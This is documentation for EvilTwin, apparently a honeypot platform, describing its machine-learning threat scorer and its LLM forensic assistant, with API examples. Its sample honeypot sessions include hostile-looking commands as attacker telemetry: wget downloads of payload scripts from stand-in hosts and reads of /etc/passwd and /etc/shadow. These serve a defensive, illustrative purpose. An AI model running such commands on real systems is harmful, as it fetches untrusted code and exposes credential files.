



# AI Threat Scoring

EvilTwin uses **two complementary AI systems** to assess attacker threat:

1. **ML Threat Scorer** — a trained RandomForest model that converts raw attacker behaviour into a numeric risk score (0.0–1.0) and severity level (0–4). This runs on every honeypot event in real time.
2. **LLM AI Assistant** — an OpenAI-compatible language model that performs deep forensic analysis of completed sessions: it identifies attack techniques (MITRE ATT&CK TTPs), extracts Indicators of Compromise, and recommends defensive actions. Analysts query this on-demand.

:::note Why two systems?
The ML model is fast and deterministic — ideal for automated triage and SDN flow decisions. The LLM is slower but richer — ideal for incident investigation where an analyst needs context and recommendations. They complement each other.
:::

---

## Part 1 — ML Threat Scorer

### What It Does

The ML scorer takes a live session and its attacker's historical profile and outputs:

- **score** — a float from `0.0` (benign) to `1.0` (critical)
- **level** — an integer 0–4 that maps to Benign / Low / Medium / High / Critical

This score drives two automated responses:
- Scores ≥ High → WebSocket alert broadcast to the SOC dashboard
- The SDN controller queries `/score/{ip}` to decide whether to redirect traffic

### Feature Engineering

The scorer represents a session as a **16-dimensional feature vector**. Each dimension captures a different aspect of attacker behaviour.



Feature families:

| Family | Examples | What They Detect |
|---|---|---|
| Command behaviour | command count, unique ratio, recon flags | Reconnaissance vs. targeted action |
| Credential pressure | credential attempts, success rate | Brute-force intensity |
| Temporal | session duration, connection frequency | Slow-and-low vs. spray attacks |
| Enrichment | vpn_detected, known_bad_ip | Anonymized / repeat offenders |
| Campaign indicators | multi-protocol, malware dropped | Coordinated infrastructure |

**Why this feature set?** It balances statistical simplicity (easy to explain in incident reports) with adversarial behaviour indicators (hard to evade without changing TTP).

### Training Data Strategy

Because real labelled attack data is scarce, the model trains on **synthetic sessions** generated with controlled class distributions:



The imbalanced distribution (more benign/low than critical) mirrors real-world traffic ratios and prevents the model from over-predicting high severity.

### Model Pipeline

The scikit-learn pipeline applies:

```
StandardScaler  →  RandomForestClassifier
                   n_estimators=300
                   class_weight='balanced'
                   max_depth=20
                   min_samples_split=5
```

- `StandardScaler` normalises features so no single dimension dominates
- `class_weight='balanced'` compensates for the class imbalance during training
- Serialised to `model.pkl` by `ai/train.py`, loaded at backend startup

### Inference Design

`ThreatScorer` (in `services/threat_scorer.py`) follows this flow on each event:

1. Check the in-memory TTL cache by attacker IP — return immediately on hit
2. On miss: extract the 16-dimension feature vector from the session + profile
3. Call `model.predict_proba()` to get class probabilities
4. Compute a continuous score
5. Write score + level back to the attacker profile in PostgreSQL
6. Cache result with TTL and return

### Scoring Formula

```
score = dot(probabilities, [0.0, 0.25, 0.5, 0.75, 1.0])
```

This dot product turns the 5-class probability distribution into a single float. A session the model is 100% sure is Critical scores `1.0`; a session split evenly across all classes scores `0.5`.

### Degraded Mode

If `model.pkl` is missing or corrupted at startup:

- `ThreatScorer` returns `(0.0, 0)` for all scoring requests
- Ingestion continues — no events are dropped
- `GET /health` reports `model_loaded: false` so operators are alerted

This is intentional: ingestion correctness is more important than scoring accuracy.

### Training and Evaluation

Re-train the model with:

```bash
cd "/home/ahmed/Dev/Evil Twin"
source .venv/bin/activate
python -m backend.ai.train
```

The training script produces:
- Classification report (precision/recall per class)
- Feature importance ranking (useful for tuning)
- Cross-validation score
- Serialised `model.pkl`

To run training inside Docker:

```bash
docker compose exec backend python -m backend.ai.train
```

### Operational Considerations

- **Retrain schedule**: define an explicit cadence (e.g. monthly). Stale models drift as attacker patterns evolve.
- **Drift detection**: monitor the distribution of predicted `threat_level` values over time. A sudden shift (e.g. everything becomes Critical) may indicate data drift or a model issue.
- **Synthetic recalibration**: periodically sample real session data and compare its feature distribution to the synthetic training set. Adjust synthetic parameters to close the gap.

---

## Part 2 — LLM AI Assistant

### What It Does

The LLM assistant extends threat scoring with **natural-language forensic analysis**. Given a session's commands, credentials, and score, it returns:

- **suspected_ttps** — MITRE ATT&CK technique identifiers with descriptions
- **iocs** — Indicators of Compromise: suspicious IPs, domains, file hashes
- **severity** — one of `critical / high / medium / low / informational`
- **recommended_actions** — specific defensive steps (e.g. "Block IP 203.0.113.10", "Review /etc/passwd changes")
- **analysis** — a narrative paragraph explaining the attacker's likely goal

This turns raw attacker telemetry into **analyst-ready incident context** — the same information a senior SOC analyst would produce manually, generated in seconds.

### Architecture



### LLMService (`services/llm_service.py`)

`LLMService` is a thin async wrapper around the OpenAI SDK that handles prompt construction and response parsing.

#### `analyze_session(session_data: dict) → dict`

Purpose: deep forensic analysis of one session.

How it works:
1. Builds a structured prompt with session metadata, executed commands, credential attempts, threat score, and VPN/enrichment flags
2. Sends the prompt to the LLM with a system message that instructs it to respond as a cybersecurity expert using MITRE ATT&CK
3. Parses the JSON response into a structured `ThreatAnalysis` object

Example prompt structure sent to the LLM:
```
System: You are an expert cybersecurity analyst...
User: Analyze this honeypot session:
  - Source IP: 203.0.113.10 (VPN: true)
  - Threat score: 0.87 (level: 4 Critical)
  - Commands: ["whoami", "cat /etc/passwd", "wget http://malicious.example/sh.txt"]
  - Credentials: [{"username": "root", "password": "toor"}]
  Provide: TTPs, IoCs, severity, recommended_actions, analysis paragraph.
```

#### `chat(message: str, session_context: dict | None) → str`

Purpose: conversational follow-up about an ongoing incident.

How it works:
1. Optionally includes session context in the system prompt if provided
2. Maintains conversation history within the request (stateless from the server's perspective — the client sends history)
3. Returns a plain-text response suitable for display in a chat UI

### AI API Endpoints

#### Check Availability — `GET /ai/status`

Before calling analysis endpoints, check whether the LLM is reachable:

```bash
TOKEN=$(curl -s -X POST http://localhost:8000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"analyst@example.com","password":"yourpassword"}' \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['access_token'])")

curl -s -H "Authorization: Bearer $TOKEN" \
  http://localhost:8000/ai/status | python3 -m json.tool
```

Response when healthy:

```json
{
  "available": true,
  "model": "gpt-4o-mini",
  "message": "LLM service is operational"
}
```

Response when the LLM API key is missing or endpoint unreachable:

```json
{
  "available": false,
  "model": null,
  "message": "LLM_API_KEY not configured"
}
```

#### Deep Forensic Analysis — `POST /ai/analyze`

Analyzes a complete session and returns structured forensic output.

**Request:**

```bash
curl -s -X POST http://localhost:8000/ai/analyze \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "session_id": "3f1e2d4a-...",
    "src_ip": "203.0.113.10",
    "commands": ["whoami", "cat /etc/passwd", "wget http://evil.example/payload.sh"],
    "credentials": [{"username": "root", "password": "toor"}],
    "threat_score": 0.87,
    "threat_level": 4,
    "duration_seconds": 142,
    "vpn_detected": true
  }' | python3 -m json.tool
```

**Response:**

```json
{
  "suspected_ttps": [
    "T1059 - Command and Scripting Interpreter",
    "T1110 - Brute Force",
    "T1005 - Data from Local System"
  ],
  "iocs": [
    "203.0.113.10",
    "evil.example",
    "payload.sh"
  ],
  "severity": "critical",
  "recommended_actions": [
    "Block 203.0.113.10 at perimeter firewall immediately",
    "Rotate credentials on affected systems",
    "Investigate outbound connections to evil.example",
    "Review /etc/passwd for unauthorised account additions"
  ],
  "analysis": "The attacker conducted a systematic reconnaissance using native OS commands before attempting to exfiltrate /etc/passwd. The subsequent wget to an external domain suggests a multi-stage attack with payload delivery intent. The use of a VPN exit node indicates operational security awareness. Immediate isolation is recommended."
}
```

#### Conversational Analysis — `POST /ai/chat`

Ask follow-up questions in plain English:

```bash
curl -s -X POST http://localhost:8000/ai/chat \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "message": "Based on the wget command, what MITRE technique covers this and what should I check in our SIEM?",
    "session_context": {
      "src_ip": "203.0.113.10",
      "commands": ["wget http://evil.example/payload.sh"],
      "threat_level": 4
    }
  }' | python3 -m json.tool
```

**Response:**

```json
{
  "response": "The wget command maps to T1105 (Ingress Tool Transfer) under the Execution tactic. In your SIEM, search for outbound HTTP/HTTPS connections from the affected host in the 30-minute window around the session timestamp. Look for connections to evil.example and any subsequent process spawning from the downloaded file. Cross-reference with T1059.004 (Unix Shell) if you see shell execution following the download."
}
```

### Configuration

The LLM assistant is configured entirely through environment variables:

| Variable | Required | Default | Description |
|---|---|---|---|
| `LLM_API_KEY` | Yes (for cloud) | — | OpenAI or compatible provider API key |
| `LLM_BASE_URL` | No | `https://api.openai.com/v1` | Override for local Ollama or other providers |
| `LLM_MODEL` | No | `gpt-4o-mini` | Model name |
| `LLM_MAX_TOKENS` | No | `2000` | Maximum response length |
| `LLM_TEMPERATURE` | No | `0.3` | Lower = more deterministic analysis |

#### Using Local Ollama Instead of OpenAI

To avoid API costs and keep data on-premise:

```bash
# 1. Install and start Ollama on your host machine
ollama pull llama3.2
ollama serve   # listens on localhost:11434

# 2. In .env, point the backend to your host machine's Ollama
LLM_API_KEY=ollama          # any non-empty string
LLM_BASE_URL=http://host.docker.internal:11434/v1
LLM_MODEL=llama3.2
```

`host.docker.internal` resolves to your host machine from inside Docker containers. On Linux, you may need to use your host's Docker bridge IP instead (typically `172.17.0.1`).

:::warning Cost vs. quality
Smaller local models (e.g. llama3.2:3b) will produce less accurate TTP identification than GPT-4o or larger models. For production, use GPT-4o-mini at minimum, or Llama 3.1:70b locally if cost is a concern.
:::

### When the LLM Is Not Configured

If `LLM_API_KEY` is not set:
- `GET /ai/status` returns `available: false`
- `POST /ai/analyze` and `POST /ai/chat` return HTTP 503 with a clear message
- All other platform features continue working normally — scoring, alerting, SDN

The platform is designed so the LLM is optional. You can run a fully operational EvilTwin deployment without LLM configuration and add it later.

---

## Quick Verification — Both AI Systems

```bash
# 1. Train/verify the ML model
docker compose exec backend python -m backend.ai.train

# 2. Ingest a test event and check the score
curl -X POST http://localhost:8000/log \
  -H "Content-Type: application/json" \
  -d '{"eventid":"cowrie.command.input","src_ip":"198.51.100.99",
       "src_port":45000,"dst_ip":"10.0.2.1","dst_port":22,
       "session":"verify-01","protocol":"ssh",
       "timestamp":"2026-01-01T00:00:00Z","input":"cat /etc/shadow"}'

curl http://localhost:8000/score/198.51.100.99

# 3. Check LLM status
curl -H "Authorization: Bearer $TOKEN" http://localhost:8000/ai/status

# 4. Run AI analysis on Ingest
curl -X POST http://localhost:8000/ai/analyze \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"session_id":"verify-01","src_ip":"198.51.100.99",
       "commands":["cat /etc/shadow"],"credentials":[],
       "threat_score":0.6,"threat_level":3,"duration_seconds":30,"vpn_detected":false}'
```
